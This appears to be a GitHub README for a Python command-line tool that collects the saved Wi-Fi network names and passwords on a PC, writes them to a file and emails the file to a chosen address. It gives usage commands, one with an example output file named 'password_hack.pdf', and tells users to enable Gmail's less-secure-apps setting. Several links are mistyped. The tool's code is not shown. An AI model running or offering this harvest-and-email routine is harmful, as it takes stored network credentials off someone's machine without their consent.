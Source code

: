 ﻿# :signal_strength: PC-Wi-Fi-Passwords-Gathering-Tool 
* This is the commandline tool helps to gather SSID &amp; passwords , make a file &amp; send it to recipient's mail
* NOTE : for sending mail you should turn on less secure apps option :link: https://myaccount.google.com/lesssecureapps

### :pushpin: Prerequests 
*  ```python 3 ``` :snake:
*  ```pip install -r requirements.txt```

### Usage
```
python wifi_tool.py [-h] -s S -p P -r R [-f F] [-v]
the following arguments are required: -s, -p, -r

Example : python wifi_tool.py -s shanmukmichael@gmal.com -p password123 -r shanmukmichael@gmal.com -f password_hack.pdf
```

## Tool Options

- ### Help -h | --help
```
python wifi_tool.py -h
```
```
PC Wi-Fi Passwords Gathering Tool
---------------------------------

required arguments:
  -s S           : sender mail id Ex: -s shanmukmichael@gmail.com
  -p P           : sender mail password Ex: -p password123
  -r R           : receiver mail id Ex: -r shanmukmichael@gmail.com

 optional arguments:
  -f F           : filename with .txt (or) .pdf extension
                   DEFAULT filename set as Wi-Fi_Profiles.pdf
  -v, --version  : show tool version
```

- ### Version -v | V
```
python wifi_tool.py -v
```

``` 
 Author: mr_shanmuk

 Github: githhub.com\shanmukmichael

 PC Wi-Fi Passwords Gathering Tool Version : v1.0
```
:beetle: report :link: https://github.comshanmukmichael/PC-Wi-Fi-Passwords-Gathering-Tool/issues
